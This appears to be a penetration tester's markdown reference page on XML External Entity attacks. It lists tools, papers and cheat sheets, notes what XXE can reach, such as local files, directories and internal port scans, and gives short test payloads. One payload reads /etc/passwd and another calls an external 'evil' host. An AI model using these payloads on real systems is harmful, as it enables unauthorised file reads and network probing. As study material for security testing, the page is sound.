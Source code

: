 ### XML External Entity attacks

##### tools
+	https://github.com/ssexxe/XXEBugFind # works on compilded java code
+	https://github.com/BuffaloWill/oxml_xxe #docs, xlsx, pptx, odt, svg ...
+	otori
+	https://blog.gdssecurity.com/labs/2015/4/29/automated-data-exfiltration-with-xxe.html
+	https://github.com/joernchen/xxeserve


##### links
+	http://www.vsecurity.com/download/papers/XMLDTDEntityAttacks.pdf (Must Read)
+	https://media.blackhat.com/eu-13/briefings/Osipov/bh-eu-13-XML-data-osipov-slides.pdf
+	https://www.youtube.com/watch?v=eBm0YhBrT_c
+	http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html
+	http://2013.appsecusa.org/2013/wp-content/uploads/2013/12/WhatYouDidntKnowAboutXXEAttacks.pdf
+	http://www.nosuchcon.org/talks/2013/D3_03_Alex&Timur_XML_Out_Of_Band.pdf
+	http://christian-schneider.net/GenericXxeDetection.html#main
+	http://blog.gdssecurity.com/labs/2015/4/29/automated-data-exfiltration-with-xxe.html
+	https://www.owasp.org/index.php/XML_External_Entity_%28XXE%29_Processing
+	http://phpsecurity.readthedocs.org/en/latest/Injection-Attacks.html#xml-injection
+	https://www.sans.org/blog/exploiting-xxe-vulnerabilities-in-iis-net
+  https://www.youtube.com/watch?v=p8wbebEgtDk

- directories can be listed using `file://MY_DIR/`
- valid XML files in ASCII or UTF-8 format can be read using `file://MY_DIR/MY_FILE`
- plain text files (no markup, no entities) in ASCII or UTF-8 can also be read using `file://MY_DIR/MY_FILE`
- `gopher: `(disabled since Java 7)
- `jar:{url}!{path}`
- `php: ...`
- internal port scan
- relay attacks to other hosts

##### cheat sheet
* http://web-in-security.blogspot.com.au/2016/03/xxe-cheat-sheet.html
* http://www.securityidiots.com/Web-Pentest/XXE/XXE-Cheat-Sheet-by-SecurityIdiots.html

##### validate xml
- http://www.xmlvalidation.com/index.php

##### test (xmlrpc)
```xml
<?xml version="1.0"?><!DOCTYPE foo [<!ELEMENT methodName ANY ><!ENTITY xxe "system.listMethods" >]><methodCall><methodName>&xxe;</methodName></methodCall>
```

##### test
```xml
<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe "blah" > ]><tag>&xxe;</tag>
<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd" > ]><tag>&xxe;</tag>
<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://evil/blah" > ]><tag>&xxe;</tag>
<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://../"> %xxe;]>
```
